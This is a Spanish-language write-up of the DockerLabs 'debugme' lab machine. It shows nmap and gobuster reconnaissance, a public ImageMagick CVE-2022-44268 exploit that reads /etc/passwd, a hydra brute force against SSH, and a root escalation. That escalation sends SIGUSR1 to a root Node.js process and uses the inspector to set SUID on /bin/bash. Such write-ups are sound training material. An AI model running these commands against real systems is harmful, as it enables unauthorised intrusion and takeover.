






# debugme

Máquina "debugme" de [DockerLabs](https://dockerlabs.es)

Autor: [Lenam](https://len4m.github.io/)

Dificultad: Dificil



## RECONOCIMIENTO

Comenzamos con un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oG escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Wed Sep  4 23:52:56 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oG escaneo.txt 172.17.0.2
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 172.17.0.2 ()	Status: Up
Host: 172.17.0.2 ()	Ports: 22/open/tcp//ssh//OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)/, 80/open/tcp//http//Apache httpd 2.4.29 ((Ubuntu))/, 443/open/tcp//ssl|http//Apache httpd 2.4.29 ((Ubuntu))/	Ignored State: closed (65532)
# Nmap done at Wed Sep  4 23:53:12 2024 -- 1 IP address (1 host up) scanned in 16.26 seconds
```

Como vemos, los puertos abiertos son:

`22: OpenSSH`

`80: Apache httpd`

`443: Apache httpd`

**`Puerto 80:`**



Ahora hacemos fuzzing para ver si encontramos algun archivo o directorio con algo de información:

```css
gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2737]
/info.php             (Status: 200) [Size: 118002]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 781486 / 882244 (88.58%)
===============================================================
Finished
===============================================================
```

Como vemos tenemos un `info.php`, que al revisarlo encuentro algo que nos puede ayudar:



Ahora que tenemos esta información podemos buscar algún exploit para imagick. Para este caso usaremos [este](https://github.com/voidz0r/CVE-2022-44268).

Una vez descargado el exploit haremos lo que dice el propio repositorio y luego de que nos suelte la imagen, la subiremos a la web. Una vez subida y reziseada nos quedará así:


Tocamos click derecho en la imagen roja y nos la guardamos, una vez guardada nos movemos a donde la dejamos y utilizaremos `exiftool` para ver los metadatos. Para hacerlo solo ejecutamos esto:

```css
exiftool <imagen>.png
```



Como vemos hay un montón de números, pero si hacemos lo que decía el repositorio podremos ver correctamente el `passwd`:

```css
python3 -c 'print(bytes.fromhex("1297.726f6f743a783[SNIP]6d652f6c656e616d3a2f62696e2f62617368.0a."))'
```

Este comando nos soltará en un formato legible el archivo:

```css
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
application:x:1000:1000::/home/application:/bin/bash
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
lenam:x:1001:1001::/home/lenam:/bin/bash
```

## INTRUSION

Ahora que tenemos un usuario, ejecutaremos hydra para el usuario lenam en el ssh:

```css
hydra -l lenam -P <wordlist> ssh://<ip>
```



Ahora que tenemos una contraseña nos conectamos por ssh. **ya estamos dentro**

## ESCALADA DE PRIVILEGIOS

Si ejecutamos `sudo -l` veremos que podemos ejecutar como root el binario `kill`. Para escalar podemos ejecutar `ps aux` y ver si hay algún proceso corriendo del que nos podamos aprovechar:

```css
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.4  64176 15736 ?        Ss   02:37   0:01 /usr/bin/python /usr/bin/supervisord -c /opt/docker/etc/super
root          44  0.0  0.0 216184  2840 ?        S    02:37   0:00 syslog-ng -F --no-caps -p /var/run/syslog-ng.pid
root          45  0.0  0.4 711228 17956 ?        S    02:37   0:00 php-fpm: master process (/etc/php/7.2/fpm/php-fpm.conf)
root          46  0.0  0.1  99288  4152 ?        S    02:37   0:00 apache2 -DFOREGROUND -DAPACHE_LOCK_DIR
root          47  0.0  0.0  30108  1280 ?        S    02:37   0:00 /usr/sbin/cron -f
root          53  0.0  0.5 922048 21528 ?        Sl   02:37   0:00 /usr/bin/node /index.js
root          76  0.0  0.0  72304  2000 ?        Ss   02:37   0:00 /usr/sbin/sshd
www-data      78  2.2  0.3 1312076 14596 ?       Sl   02:37   1:17 apache2 -DFOREGROUND -DAPACHE_LOCK_DIR
www-data      79  2.2  0.3 1311668 11992 ?       Sl   02:37   1:15 apache2 -DFOREGROUND -DAPACHE_LOCK_DIR
applica+     245  0.0  0.4 717096 18332 ?        S    03:01   0:01 php-fpm: pool www
applica+     246  0.0  0.3 713876 14344 ?        S    03:01   0:00 php-fpm: pool www
applica+     247  0.0  0.4 949824 18376 ?        S    03:02   0:00 php-fpm: pool www
root         563  0.0  0.1 104044  7296 ?        Ss   03:33   0:00 sshd: lenam [priv]
lenam        578  0.0  0.1 104044  4376 ?        R    03:33   0:00 sshd: lenam@pts/0
lenam        579  0.0  0.1  20272  3840 pts/0    Ss   03:33   0:00 -bash
lenam        595  0.0  0.0  36016  3328 pts/0    R+   03:34   0:00 ps aux
```

Como vemos el PID 53 está corriendo node, y si buscamos en [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse) veremos que se puede escalar si ejecutamos lo siguiente:

```css
sudo kill -s SIGUSR1 <PID>
```

Ahora si ejecutamos `netstat -atunop` veremos que el nodjs se ha reiniciado y está abierto el puerto 9229. Ahora ejecutamos:

```css
node inspect 127.0.0.1:9229
```

y luego ejecutamos esto dentro del modo debug:

```css
exec("process.mainModule.require('child_process').exec('chmod u+s /bin/bash')")
```

luego salimos y ponemos `bash -p` y **ya seremos root:**



Gracias por leer.
